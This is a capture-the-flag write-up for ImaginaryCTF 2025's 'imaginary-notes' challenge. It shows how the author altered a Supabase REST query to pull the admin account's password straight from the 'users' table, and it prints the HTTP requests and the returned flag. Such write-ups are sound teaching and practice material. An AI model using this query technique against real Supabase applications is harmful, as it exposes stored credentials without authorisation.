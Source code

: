 ```yaml
---
layout: post
title: "[ImaginaryCTF 2025] imaginary-notes"
author: george
---
```


> I made a new note taking app using Supabase! Its so secure, I put my flag as the password to the "admin" account. I even put my anonymous key somewhere in the site. The password database is called, "users".
>
> http://imaginary-notes.chal.imaginaryctf.org
>
> attachments: N/A

Loading up the webpage, we are shown a login page that takes in a username and password.

![Loading page on imaginary-notes](/assets/images/imaginaryctf2025/imaginary-notes.png)

Seeing this, my first reaction was attempting to login with the username `admin` and password
`password` and look at the network requests made. One network request in particular caught my eye.

```http
GET /rest/v1/users?select=*&username=eq.admin&password=eq.password HTTP/2
Host: dpyxnwiuwzahkxuxrojp.supabase.co
```

It seems that this request directly fetches a user from the backend that match the username and password in the query parameters. The request also suspiciously resembles a SQL statement that would look like this:

```sql
SELECT *
FROM users
WHERE username = eq.admin
  AND password = eq.password;
```

Once I saw this, I fiddled around with this endpoint for a bit until I came up with the request below:

```http
GET /rest/v1/users?select=password&username=eq.admin HTTP/2
Host: dpyxnwiuwzahkxuxrojp.supabase.co
```

‎

```json
{
  "password": "ictf{why_d1d_1_g1v3_u_my_@p1_k3y???}"
}
```

Sending this request allowed me to retrieve the password of the admin account and retrieve the flag, as shown from the response.

flag: `ictf{why_d1d_1_g1v3_u_my_@p1_k3y???}`
